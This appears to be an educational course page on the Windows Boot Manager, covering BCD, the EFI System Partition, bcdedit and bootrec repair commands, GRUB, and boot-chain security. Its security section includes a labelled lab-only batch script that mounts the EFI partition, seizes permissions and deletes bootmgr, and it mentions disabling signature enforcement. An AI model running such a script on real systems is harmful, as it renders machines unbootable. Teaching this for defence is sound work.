




# Windows Boot Manager (Boot Loader)

A **boot loader** is a small program that runs before the operating system starts. Its job is to initialize the boot process, locate the operating system, load the OS kernel into memory, and transfer control to it. On modern Windows, this role is filled by the **Windows Boot Manager** (`bootmgr` on BIOS, `bootmgfw.efi` on UEFI).

## Overview

Every operating system uses a boot loader, though the implementation varies with the OS and the firmware type. The [Firmware](Firmware.md) stage — [BIOS or UEFI](BIOS-and-UEFI.md) — performs power-on self-test and hardware initialization, then hands control to a boot loader that reads its configuration, presents any boot menu, and launches the OS loader. The OS loader in turn loads the kernel, and the machine proceeds through the full [Booting-Process](Booting-Process.md) to the logon screen.

Windows Boot Manager reads the **Boot Configuration Data (BCD)** store to decide what to boot. Understanding this chain matters for both administration (repairing an unbootable machine) and offensive/defensive security, because the boot chain is the trust anchor everything above it inherits.

> [!NOTE]
> **Boot manager vs. OS loader**
> `bootmgr` / `bootmgfw.efi` is the **boot manager** — it chooses an entry and starts an OS loader. `winload.exe` is the **Windows OS loader** — it actually loads the kernel and boot drivers. They are distinct stages, not the same file.

## Boot Process

### BIOS-Based Systems



### UEFI-Based Systems



## Types of Boot Loaders

| Operating System | Boot Loader |
|------------------|-------------|
| Windows Vista and later | Windows Boot Manager (`bootmgr`, `bootmgfw.efi`) |
| Windows XP and earlier | NTLDR |
| Linux | GRUB 2 |
| macOS | boot.efi |

## Windows Boot Components

### Windows Vista and Later

| Component | Description | Default Location |
|-----------|-------------|------------------|
| **bootmgr** | Windows Boot Manager for BIOS systems. Reads the BCD and starts the operating system loader. | System Reserved Partition |
| **bootmgfw.efi** | Windows Boot Manager for UEFI systems. | `EFI\Microsoft\Boot\bootmgfw.efi` |
| **BCD** | Boot Configuration Data database containing boot entries and configuration. | `\Boot\BCD` or `EFI\Microsoft\Boot\BCD` |
| **winload.exe** | Loads the Windows kernel, HAL, boot drivers, and registry. | `%SystemRoot%\System32\winload.exe` |
| **winresume.exe** | Resumes Windows from hibernation. | `%SystemRoot%\System32\winresume.exe` |

### Windows XP and Earlier

| Component | Description | Location |
|-----------|-------------|----------|
| **NTLDR** | Legacy Windows boot loader. | `C:\NTLDR` |
| **boot.ini** | Stores boot menu configuration. | `C:\boot.ini` |
| **NTDETECT.COM** | Detects hardware during startup. | `C:\NTDETECT.COM` |

## Windows Boot Sequence

The Boot Manager loads its configuration from the **BCD**, then starts `winload.exe`, which loads the kernel (`ntoskrnl.exe`).

### BIOS (Legacy)



### UEFI



## System Reserved Partition

The **System Reserved Partition** is automatically created during Windows installation on BIOS-based systems. It contains:

- Windows Boot Manager
- Boot Configuration Data (BCD)
- Startup files
- BitLocker boot files

Windows does not assign a drive letter to this partition.

### Default Sizes

| Windows Version | Default Size |
|-----------------|-------------:|
| Windows 7 | 100 MB |
| Windows 8 | 350 MB |
| Windows 10 | 500 MB (typically) |
| Windows 11 | 500 MB (typically) |

> [!NOTE]
> **UEFI equivalent**
> UEFI systems use an **EFI System Partition (ESP)** instead of the traditional System Reserved partition.

## EFI System Partition (ESP)

The **EFI System Partition (ESP)** is a FAT32 partition used by UEFI firmware to store boot loaders and related files.

Typical directory structure:

```text
EFI
├── Boot
├── Microsoft
│   └── Boot
│       ├── BCD
│       ├── bootmgfw.efi
│       ├── bootmgr.efi
│       └── memtest.efi
└── Ubuntu
    └── grubx64.efi
```

## Viewing Boot Configuration

Display current boot entries:

```cmd
bcdedit /enum
```

Display all boot entries:

```cmd
bcdedit /enum all
```

Display firmware entries:

```cmd
bcdedit /enum firmware
```

## Boot Repair Commands

> [!TIP]
> **Run from the Recovery Environment**
> `bootrec` is available from the **Windows Recovery Environment (WinRE)**, not from a normally running Windows session. Boot from installation/recovery media, choose **Repair your computer → Troubleshoot → Command Prompt**, then run these.

Repair the Master Boot Record (MBR):

```cmd
bootrec /fixmbr
```

Repair the boot sector:

```cmd
bootrec /fixboot
```

Search for installed Windows operating systems:

```cmd
bootrec /scanos
```

Rebuild the Boot Configuration Data:

```cmd
bootrec /rebuildbcd
```

## Back Up and Restore the BCD

Export the BCD store:

```cmd
bcdedit /export C:\BCD_Backup
```

Import the BCD store:

```cmd
bcdedit /import C:\BCD_Backup
```

## Mount the EFI System Partition

Using `mountvol`:

```cmd
mountvol Z: /S
```

Using DiskPart:

```cmd
diskpart
list disk
select disk 0
list partition
select partition 1
assign letter=Z
exit
```

## Boot Loader Management Tools

| Tool | Platform | Description |
|------|----------|-------------|
| **BCDEdit** | Windows | Command-line utility for managing the Boot Configuration Data (BCD). |
| **Bootrec** | Windows Recovery Environment | Repairs Windows boot issues. |
| **EasyBCD** | Windows | Graphical utility for editing the Windows Boot Manager and BCD. |
| **GRUB** | Linux | Standard boot loader for most Linux distributions. |
| **efibootmgr** | Linux | Manages UEFI boot entries from Linux. |

## Linux Boot Loader (GRUB)

On UEFI multi-boot machines, the Windows Boot Manager and GRUB coexist on the ESP. Common GRUB operations:

Update the GRUB configuration:

```bash
sudo update-grub
```

Install GRUB:

```bash
sudo grub-install /dev/sda
```

View the GRUB configuration:

```bash
cat /boot/grub/grub.cfg
```

## Security Considerations

The boot chain runs **before** the operating system and its security controls exist, so anything that subverts it inherits maximum privilege and can hide from OS-level defenses. This is why the Boot Manager and its configuration are high-value targets.

> [!WARNING]
> **The boot chain is a trust anchor**
> - **Bootkits** persist by tampering with the MBR/VBR, `bootmgr`/`bootmgfw.efi`, or the BCD, executing before the kernel and any EDR loads. **Secure Boot** exists to break this by verifying signatures on boot components.
> - **BitLocker interaction** — modifying boot files changes the measured boot state; on a BitLocker-protected system this triggers **recovery-key** prompts. Attackers with physical access may target the pre-boot environment; defenders should enable BitLocker with a TPM (and PIN where feasible).
> - **`bcdedit` tampering** — an attacker with admin/SYSTEM can disable integrity checks (for example, test-signing or driver-signature-enforcement flags) to load unsigned malicious drivers. Treat unexpected BCD changes as a compromise indicator.
> - **Destructive tampering** — deleting or corrupting `bootmgr`/`bootmgfw.efi` or the BCD renders the host unbootable (a denial-of-service / wiper technique).

> [!WARNING]
> **Destructive example — test environments only**
> The batch script below takes ownership of the EFI System Partition, changes its permissions, copies out `bootmgr`, and then **deletes** it. Running it can render a Windows installation **unbootable**. Only run it in a controlled lab or for forensic/research purposes — never on production systems.

The following script mounts the ESP and removes the Windows Boot Manager, demonstrating how easily boot-file tampering breaks a system:

```cmd
@echo off

echo select disk 0 > %SystemDrive%\ProgramData\script.txt
echo select partition 1 >> %SystemDrive%\ProgramData\script.txt
echo assign letter=Z >> %SystemDrive%\ProgramData\script.txt
echo exit >> %SystemDrive%\ProgramData\script.txt

diskpart /s %SystemDrive%\ProgramData\script.txt

takeown /f Z:\EFI\Microsoft\Boot

echo y | icacls Z:\EFI\Microsoft /grant %USERNAME%:F

attrib -r -h -s Z:\EFI\Microsoft

robocopy Z:\ %SystemDrive%\ProgramData\ bootmgr

echo y | del Z:\bootmgr
```

Script breakdown:

| Command | Purpose |
|---------|---------|
| `diskpart` | Runs a DiskPart script to assign the ESP the drive letter `Z:`. |
| `takeown` | Takes ownership of the `EFI\Microsoft\Boot` directory. |
| `icacls` | Grants the current user Full Control over `EFI\Microsoft`. |
| `attrib` | Removes the Read-only, Hidden, and System attributes. |
| `robocopy` | Copies the `bootmgr` file off the EFI partition. |
| `del` | Deletes the `bootmgr` file from the mounted EFI partition. |

Deleting or modifying boot files can result in failure to boot, Boot Manager corruption, forced Startup Repair, or the need for recovery media to restore the boot environment. Boot-level tampering that loads unsigned code is also a stepping stone toward Privilege-Escalation to SYSTEM.

## Best Practices

- Back up the BCD (`bcdedit /export`) before making any boot changes.
- Keep **UEFI + Secure Boot** enabled so unsigned or tampered boot components are rejected.
- Enable **BitLocker** (TPM-backed) to protect the pre-boot environment and detect boot-file tampering.
- Use `bcdedit` to manage boot entries and run `bootrec` only from the Windows Recovery Environment (WinRE).
- Avoid manually editing or deleting files in the EFI System Partition; keep Windows recovery media on hand.
- Verify the correct boot mode (BIOS vs UEFI) before troubleshooting, since the repair steps differ.

## Troubleshooting

| Symptom | Likely cause & fix |
|---------|--------------------|
| **BOOTMGR is missing** | Missing or damaged boot manager — repair with `bootrec` or Windows installation media. |
| **NTLDR is missing** | Missing legacy boot files — restore `NTLDR` and `boot.ini` (XP-era systems). |
| **Operating System Not Found** | Incorrect boot order or damaged boot files — check BIOS/UEFI settings and repair the boot loader. |
| **Inaccessible Boot Device** | Storage driver or disk issue — repair drivers or restore the boot configuration. |
| **BCD Missing or Corrupt** | Corrupted Boot Configuration Data — run `bootrec /rebuildbcd`. |

## References

- [Windows boot process fundamentals (Microsoft Learn)](https://learn.microsoft.com/en-us/windows-hardware/drivers/bringup/boot-and-uefi)
- [BCDEdit command-line options (Microsoft Learn)](https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/bcdedit-command-line-options)
- [Use the Bootrec.exe tool to repair startup issues (Microsoft Support)](https://support.microsoft.com/en-us/topic/use-bootrec-exe-in-the-windows-re-to-troubleshoot-startup-issues-902ebe7e-2b0b-4e3a-8e0a-d2f2f4b0d7d5)
- [UEFI Secure Boot (Microsoft Learn)](https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-secure-boot)

## Related

- [Enterprise Windows Infrastructure Security](../Readme.md) — course hub and map of content
- [BIOS-and-UEFI](BIOS-and-UEFI.md) — firmware stage that loads the boot manager
- [Firmware](Firmware.md) — the layer between hardware and the OS
- [Booting-Process](Booting-Process.md) — the full power-on to logon sequence
- [Operating-System](Operating-System.md) — what the boot manager ultimately loads
</content>
</invoke>
